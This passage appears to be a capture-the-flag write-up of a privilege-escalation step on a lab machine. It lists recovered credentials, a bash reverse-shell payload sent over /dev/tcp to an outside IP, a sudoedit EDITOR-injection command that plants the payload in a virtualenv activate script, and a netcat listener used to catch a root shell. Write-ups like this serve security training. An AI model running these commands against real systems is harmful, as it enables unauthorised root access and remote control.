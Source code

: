 ```username:corum```          ```password:5db7caa1d13cc37c9fc2```

![image](https://user-images.githubusercontent.com/67879936/224595287-4cfbd90d-3baa-4e41-9419-181dc420d97d.png)

Now, this looks like a virtual environment. So, we can use this to escalate our privileges. 

To exploit this we'll be inserting our payload into the file

payload:```/bin/bash -l > /dev/tcp/10.10.15.16/1234 0<&1 2>&1```

Ensure you change the $IP and $Port


Lets insert that payload into the file

command:```EDITOR="vi -- /app/venv/bin/activate" sudo -u dev_admin sudoedit /app/app-testing/tests/functional/creds.txt```

![image](https://user-images.githubusercontent.com/67879936/224596161-340c81b2-d49a-45ec-8b80-2ae1919a9616.png)

Ensure this file is properly saved after adding your payload.

Our payload will be executed if we try switching to the virtual environment, before we switch set up your netcat listener

command:```rlwrap nc -nvlp 1234```

To switch to the virtual environment

>command: source activate

![image](https://user-images.githubusercontent.com/67879936/224596651-d679ff9b-8c44-4da4-95c0-91ec70e8d9f4.png)

checking our listener

![image](https://user-images.githubusercontent.com/67879936/224596731-9055df88-789c-4667-8fd8-0b4ebd6c0bf3.png)

Boom!!! We got a root shell.


That will be all for today
<br> <br>
[Back To Home](../../index.md)

















```